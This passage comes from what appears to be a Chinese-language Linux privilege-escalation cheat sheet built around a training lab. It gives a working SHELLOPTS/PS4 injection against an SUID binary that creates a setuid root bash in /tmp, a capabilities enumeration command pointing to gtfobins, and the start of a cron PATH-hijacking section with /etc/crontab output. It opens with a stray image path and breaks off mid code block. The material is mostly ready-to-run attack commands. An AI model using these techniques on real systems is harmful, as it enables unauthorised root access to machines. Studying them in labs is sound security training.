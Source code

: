 ```


Exploitation Method #2

>env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'


# 13.Capabilities(能力)

列出已启用的功能
> getcap -r / 2>/dev/null

注意这个值：```cap_setuid```

根据显示的功能到[gtfobins](https://gtfobins.github.io/)查找对应的```Capabilities```的提权方法

# 14. Cron(Path) 

思路主要是把提权命令注入到Cron脚本中

查看Cron任务：
> cat /etc/crontab

```
TCM@debian:/tmp$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
